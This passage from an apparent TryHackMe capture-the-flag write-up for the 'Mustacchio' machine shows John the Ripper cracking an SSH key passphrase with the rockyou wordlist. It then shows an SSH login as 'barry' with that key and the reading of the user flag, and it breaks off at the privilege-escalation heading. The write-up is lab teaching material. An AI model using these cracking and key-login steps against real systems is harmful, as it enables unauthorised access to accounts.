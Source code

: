 ## John The Ripper

Now we can crack the hash with [JohnTheRipper](../../3%20-%20Tags/Hacking%20Tools/JohnTheRipper.md) :

```bash
┌──(mdn0x㉿mdn0xonKali)-[~/THM/CHALLENGES/Easy/Mustacchio]
└─$ john hash --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 12 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
'urieljames'       (barry_id)     
1g 0:00:00:00 DONE (2025-07-25 18:15) 1.960g/s 5824Kp/s 5824Kc/s 5824KC/s urielpoche1787..urielandrea
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 

```

## SSH First Access

Now we can use the key on [SSH](../../3%20-%20Tags/Hacking%20Concepts/SSH.md) and cat the user flag:

```bash
┌──(mdn0x㉿mdn0xonKali)-[~/THM/CHALLENGES/Easy/Mustacchio]
└─$ ssh -i barry_id barry@mustacchio.thm 
Enter passphrase for key 'barry_id': 
Welcome to Ubuntu 16.04.7 LTS (GNU/Linux 4.4.0-210-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

34 packages can be updated.
16 of these updates are security updates.
To see these additional updates run: apt list --upgradable



The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

barry@mustacchio:~$ ls
user.txt
barry@mustacchio:~$ cat user.txt 
62d77a4d5f97d47c5aa38b3b2651b831
```
#  Privilege Escalation
